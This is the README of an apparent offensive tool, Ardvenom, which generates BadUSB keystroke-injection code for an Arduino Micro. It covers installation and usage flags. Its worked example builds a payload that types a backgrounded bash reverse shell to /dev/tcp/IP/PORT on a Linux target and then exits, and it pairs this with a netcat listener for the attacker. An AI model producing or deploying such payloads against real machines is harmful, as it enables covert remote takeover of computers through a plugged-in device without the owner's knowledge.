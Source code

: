 # Ardvenom

A tool that auto generate badUSB like code for Arduino Micro code.

## Installation
### Requirements
Debian
```bash
apt-get install arduino arduino-cli
```
Arch
```bash
pacman -S arduino arduino-cli
```
### Preparation
add user to uucp group
```
sudo usermod -a -G uucp USERNAME
```
enter group to skip reboot
```bash
newgrp uucp
```

## Usage

Plug your Arduino Micro using USB cable (make sure it's the only pluged Arduino).


![arduino](https://github.com/j4ckst0ne37/Ardvenom/blob/main/arduino.jpg?raw=true)

Run ardvenom.py
```bash
./ardvenom.py -o OS -l KEYBOARD_LAYOUT -c CMD
```
## Example

To make a simple reverse-shell for a Linux target.

```bash
./ardvenom.py -o linux -l qwerty -c "nohup bash -i >& /dev/tcp/IP/PORT 0>&1 > /dev/null & disown && exit"
```
In the other side
```bash
nc -vnlp PORT
```

## License
[MIT](https://choosealicense.com/licenses/mit/)
